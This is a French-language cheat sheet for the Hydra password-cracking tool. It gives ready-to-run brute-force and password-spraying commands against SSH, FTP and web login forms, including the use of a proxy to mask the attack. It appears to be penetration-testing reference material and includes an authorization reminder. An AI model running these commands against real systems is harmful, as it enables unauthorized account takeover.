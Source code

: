 # cheat sheet Hydra

Une référence rapide pour les commandes courantes de **Hydra**, un outil de cracking de mots de passe par force brute, avec fonctions, commandes et exemples.

---

## 1. Attaque par dictionnaire sur SSH
**Fonction** : Tester des mots de passe sur un service SSH.  
**Commande** : `hydra -l <username> -P <wordlist> ssh://<target>`  
**Exemple** : `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10`  
- Tente de craquer le mot de passe de "root" sur SSH à 192.168.1.10 avec rockyou.txt.

---

## 2. Attaque par dictionnaire sur HTTP POST
**Fonction** : Tester des identifiants sur un formulaire web (POST).  
**Commande** : `hydra -l <username> -P <wordlist> <target> http-post-form "<path>:<form_params>:<failure_string>"`  
**Exemple** : `hydra -l admin -P rockyou.txt 192.168.1.10 http-post-form "/login:username=^USER^&password=^PASS^:Login failed"`  
- Craque un formulaire à /login avec "admin" et rockyou.txt.

---

## 3. Attaque avec liste d’utilisateurs et mots de passe
**Fonction** : Utiliser des listes pour utilisateurs et mots de passe.  
**Commande** : `hydra -L <userlist> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -L users.txt -P rockyou.txt 192.168.1.10 ssh`  
- Teste plusieurs utilisateurs (users.txt) sur SSH.

---

## 4. Attaque sur FTP
**Fonction** : Craquer des identifiants FTP.  
**Commande** : `hydra -l <username> -P <wordlist> ftp://<target>`  
**Exemple** : `hydra -l ftpuser -P rockyou.txt ftp://192.168.1.20`  
- Tente une attaque sur FTP pour "ftpuser".

---

## 5. Attaque avec mot de passe unique
**Fonction** : Tester un seul mot de passe pour plusieurs utilisateurs.  
**Commande** : `hydra -L <userlist> -p <password> <target> <service>`  
**Exemple** : `hydra -L users.txt -p password123 192.168.1.10 ssh`  
- Teste "password123" pour chaque utilisateur dans users.txt sur SSH.

---

## 6. Ajuster le nombre de threads
**Fonction** : Contrôler la vitesse avec des threads parallèles.  
**Commande** : `hydra -t <threads> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -t 16 -l root -P rockyou.txt ssh://192.168.1.10`  
- Utilise 16 threads pour accélérer l’attaque SSH.

---

## 7. Attaque sur HTTPS GET
**Fonction** : Tester un formulaire web via GET sur HTTPS.  
**Commande** : `hydra -l <username> -P <wordlist> <target> https-get "<path>"`  
**Exemple** : `hydra -l admin -P rockyou.txt 192.168.1.10 https-get "/admin"`  
- Teste l’accès à /admin via GET sur HTTPS.

---

## 8. Sauvegarde des résultats
**Fonction** : Enregistrer les identifiants trouvés dans un fichier.  
**Commande** : `hydra -o <outputfile> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -o results.txt -l root -P rockyou.txt ssh://192.168.1.10`  
- Sauvegarde les résultats dans results.txt.

---

## 9. Attaque avec proxy
**Fonction** : Utiliser un proxy pour masquer l’attaque.  
**Commande** : `hydra -x <proxy> -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -x http://127.0.0.1:8080 -l root -P rockyou.txt ssh://192.168.1.10`  
- Utilise un proxy local pour l’attaque SSH.

---

## 10. Mode verbeux
**Fonction** : Afficher plus de détails pendant l’attaque.  
**Commande** : `hydra -V -l <username> -P <wordlist> <target> <service>`  
**Exemple** : `hydra -V -l root -P rockyou.txt ssh://192.168.1.10`  
- Affiche chaque tentative en détail.

---

## Notes importantes
- **Permissions** : Assurez-vous d’avoir l’autorisation de tester les cibles.
- **Installation** :  
  ```bash
  sudo apt update && sudo apt install -y hydra
  ```
